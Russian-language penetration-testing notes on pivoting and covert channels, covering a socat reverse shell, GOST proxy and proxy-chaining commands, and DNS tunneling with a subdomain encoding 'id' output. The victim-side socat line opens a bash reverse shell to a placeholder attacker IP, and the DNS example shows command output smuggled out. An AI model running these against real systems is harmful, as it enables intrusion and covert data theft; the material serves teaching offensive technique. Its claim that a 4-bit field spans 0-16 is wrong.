 > _Пример обратного шелла:_  
>   
> ``attacker > socat TCP-LISTEN:1337,reuseaddr FILE:`tty`,raw,echo=0`` — поднимает сокет 1337 и берет / кладет туда данные в режиме терминала
> 
> `victim > socat TCP4:<attackers_ip>:1337 EXEC:bash,pty,stderr,setsid,sigint,sane` — присоединяется к сокету по адресу атакующего и отправляет все данные из него на исполнение

### **GOST**

GO Simple Tunnel не сильно отличается по возможностям от предыдущей утилиты, но имеет более простой синтаксис правил. Также язык разработки GO упрощает компиляцию исполняемого файла под заданную ОС.

> **_Стандартные примеры использования:_**
> 
> _Стандартный HTTP/SOCKS5 прокси:_  
> `gost -L=:8080`
> 
> _Прокси с аутентификацией:_  
> `gost -L=admin:123456@localhost:8080`

  
**Режим цепочки прокси:**

![[Pasted image 20240409144850.png]]

- Прокси сервер_:_ `gost -L=socks://:1080`
- Прокси клиент: `gost -L=:8080 -F=socks://server_ip:1080`
## Использование внешних утилит для скрытия трафика

Утилиты сокрытия трафика и обхода ограничений используют нестандартные протоколы, такие, как DNS и ICMP, позволяя **обойти блокировки или скрыть факт передачи данных.**

### **DNS-туннелирование**

**DNS-туннелирование (DNS Tunneling)** — это метод использования DNS-протокола для передачи данных между компьютерами в  
сети.

Одним из способов реализации DNS-туннелирования является **использование поддоменов.**

> **_Пример:_**
> 
> `OVUWIPJRGAYDCKDSMVTXK3DBOIUSAZ3JMQ6TSOJZFBZGKZ3VNRQXEKI.example.com`
> 
> В имени поддомена закодирована строка: `uid=1001(regular) gid=999(regular)`

Другим способом реализации DNS-туннелирования является использование поля "OPCODE_"_ в запросах DNS.  
Поле _"опкод"_ обычно используется для указания типа запроса (например, запрос на получение записи или запрос на обновление записи), но может также использоваться для передачи полезной нагрузки, включая команды или файлы.  
  
Максимальная длина “OPCODE” равна 4 битам (0-16).
